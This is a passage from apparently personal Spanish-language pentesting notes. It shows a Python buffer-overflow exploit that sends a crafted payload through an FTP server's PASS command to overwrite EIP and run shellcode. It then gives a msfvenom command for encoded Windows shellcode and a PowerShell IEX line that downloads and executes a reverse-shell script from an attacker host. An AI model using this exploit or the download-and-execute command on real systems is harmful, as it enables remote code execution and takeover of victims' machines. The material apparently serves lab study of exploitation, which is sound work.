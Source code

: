 ```python

# USING NOPS 
#nops = b"\x90"*16

# USING STACK DISPLACEMENT 
stack_displacement = b"\x83\xEC\x10"

# USING NOPS 
#payload = b'PASS ' + before_eip + eip + nops + shellcode

# USING STACK DISPLACEMENT 
payload = b'PASS ' + before_eip + eip + stack_displacement + shellcode


def bof(): 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((ip, port))

    banner = s.recv(1024)
    
    if(banner):
        s.send(b"USER dobliuw" + b'\r\n') #\r\n manera de simular ENTER
        response = s.recv(1024)
        print(response)
        s.send(payload + b'\r\n')
        s.close()


if __name__ == "__main__":
    bof()
```

### Como adicional, si quisiéramos ejecutar un comando en particular en lugar de entablar una de las [[Shells]] (**Reverse Shell**), podríamos usar otro payload con la herramienta **msfvenom**

### `msfvenom -p windows/exec CMD="{command}" --platform windows -a x86 -f c -e x86/shikata_ga_nai -b '\x00\x0a\x0d' EXITFUNC=thread`

### Por ejemplo el comando podría ser `powershell IEX(New-Object Net.WebClient).dowloadString('http://192.168.1.33:443/reverse.ps1')` para descargarnos un recurso en particular de nuestra url y posteriormente ejecutarlo con powershell, el script podría ser del [repositorio de github de nishang](https://github.com/samratashok/nishang).
